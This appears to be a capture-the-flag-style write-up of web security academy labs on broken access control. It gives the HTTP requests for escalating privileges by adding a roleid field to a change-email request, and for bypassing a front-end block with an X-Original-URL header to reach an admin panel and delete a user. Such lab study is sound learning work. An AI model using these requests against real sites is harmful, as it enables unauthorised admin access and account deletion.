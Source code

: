 This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2.

```
POST /my-account/change-email
...
{"email":"wiener@normal-user.net"}
--------
Response:
{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "apikey": "XlYHWaH45FGKxxhwzymauoYnUYk1A11S",
  "roleid": 1
}
```

```
POST /my-account/change-email
...
{
  "email":"wiener@normal-user.net",
  "roleid": 2
}
--------
Response:
{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "apikey": "XlYHWaH45FGKxxhwzymauoYnUYk1A11S",
  "roleid": 2
}
```

After this request, we got administrator rights. There is no control on the post request. So we can change privilege.

### Lab: URL-based access control can be circumvented

This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

`GET /admin HTTP/1.1 - 403 Forbidden`

```
GET /
X-Original-URL: /admin
```

The response contains /admin page contents.

`https://acf81f9b1f02b026c06a1dce00e100ce.web-security-academy.net/admin/delete?username=carlos`

User deletion:

```
GET /?username=carlos HTTP/1.1

X-Original-URL: /admin/delete
```
